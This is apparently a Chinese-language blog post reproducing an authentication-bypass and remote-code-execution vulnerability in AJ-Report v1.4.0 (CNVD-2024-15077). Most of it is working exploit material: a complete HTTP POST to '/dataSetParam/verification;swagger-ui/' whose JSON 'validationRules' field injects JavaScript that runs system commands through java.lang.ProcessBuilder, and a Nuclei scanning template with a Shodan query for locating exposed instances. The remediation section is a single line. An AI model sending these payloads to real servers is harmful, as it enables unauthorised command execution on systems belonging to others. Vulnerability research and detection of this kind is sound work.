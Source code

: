 ﻿@[toc]

# 描述
 AJ-Report是全开源的一个BI平台，酷炫大屏展示，能随时随地掌控业务动态，让每个决策都有数据支撑。
    多数据源支持，内置mysql、elasticsearch、kudu驱动，支持自定义数据集省去数据接口开发，目前已支持30+种大屏组件/图表，不会开发，照着设计稿也可以制作大屏。
# 漏洞原理
通过调用/verification;swagger-ui/接口，构造js代码调用java类中的ProcessBuilder来执行系统命令并获取其输出
# 影响版本
AJ-Report v1.4.0
# 漏洞复现
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/28035ef28ba747c5ba12cb86fa3101c6.png)
构造请求数据包
```yaml
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 347

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"ip\",\"a\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```
数据包进行发送
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/c2c8890bf5ad4d148eebf3b78e5707ca.png)
漏洞复现成功

# 修复方案
更新至最新版本

```yaml

id: CNVD-2024-15077

info:
  name: AJ-Report 认证绕过与远程代码执行漏洞
  author: fgz
  severity: critical
  description: |
    AJ-Report是全开源的一个BI平台，酷炫大屏展示，能随时随地掌控业务动态，让每个决策都有数据支撑。多数据源支持，内置mysql、elasticsearch、kudu等多种驱动，支持自定义数据集省去数据接口开发，支持17+种大屏组件。在其1.4.0版本及以前，存在一处认证绕过漏洞，攻击者利用该漏洞可以绕过权限校验并执行任意代码。
  reference:
    - none
  metadata:
    verified: true
    max-request: 1
    shodan-query: title="AJ-Report"
  tags: cnvd,cnvd2024

http:
  - raw:
      - |
        POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate, br
        Accept-Language: zh-CN,zh;q=0.9
        Content-Type: application/json;charset=UTF-8
        Connection: close
        
        {"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"ipconfig\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}


    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'Windows IP')"
```

